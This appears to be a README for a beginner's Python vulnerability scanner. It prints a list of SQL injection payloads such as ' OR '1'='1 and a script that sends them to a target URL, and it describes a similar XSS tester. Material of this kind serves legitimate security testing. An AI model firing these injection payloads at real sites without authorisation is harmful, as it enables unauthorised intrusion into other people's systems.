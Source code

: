 ===========================================
<BR>
               SQL INJECTION
<BR>
===========================================
Define the URL of the target website:
<br>
url = "http://example.com/vulnerable_page.php"

Define a list of SQL injection payloads to test:
<br>
payloads = [
    "' OR '1'='1",
    "' OR '1'='1' -- ",
    "' OR '1'='1' /* ",
    "' OR 1=1-- ",
    "' OR 'a'='a",
    "' OR 'a'='a' -- ",
    "' OR 'a'='a' /* ",
    "1' OR '1'='1",
    "1' OR '1'='1' -- ",
    "1' OR '1'='1' /* "
]

Define a function to test for SQL injection:
<br>
def test_sql_injection(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?id={payload}"

        try:
            # Send the HTTP request
            response = requests.get(test_url)

            # Check if the payload is reflected in the response
            if "SQL" in response.text or "syntax" in response.text or "error" in response.text:
                print(f"Potential SQL injection vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not cause an SQL error.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Call the function to run the test:
<br>
test_sql_injection(url, payloads)

===========================================
                   XSS
===========================================
First, make sure you have the requests library installed. If not, you can install it using pip:
<br>
pip install requests

Explanation:
URL Definition: The URL of the target website is defined as url.
Payloads List: A list of common XSS payloads is defined. These payloads will be tested to see if they are reflected in the response.
Function Definition (test_xss): This function takes the URL and payloads as parameters and iterates through each payload:
Construct URL: For each payload, the script constructs a test URL by appending the payload to the query parameter input.
Send Request: It sends an HTTP GET request to the constructed URL.
Check Response: It checks if the payload is reflected in the response text. If it is, it prints a message indicating a potential XSS vulnerability. If not, it prints a message that the payload did not trigger an XSS vulnerability.
Error Handling: The script includes error handling to catch and print any exceptions that occur during the HTTP request.

<br>
SQLI.py & XSS.py the script for testing vulnerability on the website with python language.

You can run this script for testing the website with following step:

pip install requirements
<br>
chmod +x filename.py
<br>
python3 filename.py

put target url for checking vulnerable of SQL Injection



Happy Hacking..!!

